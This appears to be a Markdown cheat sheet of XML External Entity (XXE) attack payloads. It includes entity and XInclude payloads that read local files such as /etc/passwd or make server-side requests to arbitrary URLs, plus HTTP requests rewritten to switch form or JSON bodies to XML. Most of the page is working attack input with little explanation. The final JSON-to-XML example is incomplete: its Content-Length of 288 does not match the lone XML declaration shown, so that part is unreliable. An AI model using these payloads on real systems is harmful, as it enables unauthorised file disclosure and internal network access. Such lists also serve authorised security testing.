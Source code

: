 ### File Retrieval
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file://<path>"> ]>
<field>&xxe;</field>
```

### SSRF
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://<url>/"> ]>
<field>&xxe;</field>
```

### XInclude Attack
#### Read Local File
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

#### SSRF
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="<url>"/>
</foo>
```

### XXE Through Modified Content-Type
#### POST Request
Original request:
```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

var=value
```
Modified request:
```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><var>value</var>
```

#### JSON Body
Original request:
```http
POST /action HTTP/1.0
Content-Type: application/json
Content-Length: 38

{"search":"name","value":"val"}
```
Modified request:
```http
POST /action HTTP/1.0
Content-Type: application/xml
Content-Length: 288

<?xml version="1.0" encoding="UTF-8" ?>
```